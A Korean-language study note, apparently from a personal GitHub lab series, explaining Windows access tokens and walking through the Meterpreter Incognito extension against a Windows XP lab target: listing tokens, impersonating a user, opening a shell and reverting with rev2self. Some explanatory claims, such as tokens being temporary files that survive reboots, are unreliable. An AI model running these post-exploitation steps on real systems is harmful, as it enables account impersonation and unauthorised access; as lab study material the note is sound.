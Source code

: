 # Incognito
토큰(Token) : 매번 개인정보(암호)를 제시하지 않고도 시스템이나 네트워크에 액세스 할 수 있게 해 주는 템포러리 파일. 두 가지 종류의 토큰이 있다.  
- Delegate : 원격 데스크탑으로 머신에 로그인하거나 연결하는 등의 상호적인 로그인을 위해 생성됨.  
- Impersonate : 네트워크 드라이브나 스크립트의 도메인 로그를 부여하는 등의 비상호적인 세션을 위해 생성됨.  
→ 시스템이 재부팅 되어도 유지된다는 장점이 있다.  

## 실습
Kali에서 Windows XP를 타겟으로 한 meterpreter 세션을 연다.  
**run**  
**load incognito**  
Incognito 모듈 로드  
**help incognito**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Meterpreter%20Extensions/Incognito/Source/Incognito%20%EC%A4%80%EB%B9%84.png)

이제 첫번째로 해야하는 일은 Window Xp에 유용한 토큰이 있는지 확인하기 위해 토큰을 나열하는 것이다.  
**list_tokens**  
**list_tokens -u**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Meterpreter%20Extensions/Incognito/Source/Incognito%20token.png)  

그 다음에 해야하는 일은 administrator을 흉내내고 현재 유저 아이디를 확인한다.  

**impersonate_token USER-K3AEH9K6N\\User1**  
**getuid**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Meterpreter%20Extensions/Incognito/Source/Incognito%20token%EC%9C%BC%EB%A1%9C%20%EA%B3%84%EC%A0%95.png)

쉘을 열어 우리가 누군지 확인한다.  
**shell**  
**whoami**  
**echo %USERDOMAIN%/%USERNAME%**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Meterpreter%20Extensions/Incognito/Source/Incognito%20shell.png)  
우리는 user라는 것을 확인할 수 있다.  
Ctrl+C를 눌러 shell을 종료해준다.  

**rev2self**  
**getuid**  
**shell**  
**echo %USERDOMAIN%/%USERNAME%**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Meterpreter%20Extensions/Incognito/Source/user%ED%99%95%EC%9D%B8.png)  
다시 시스템 유저로 진입한 후 현재 우리가 무엇인지 확인한다.  
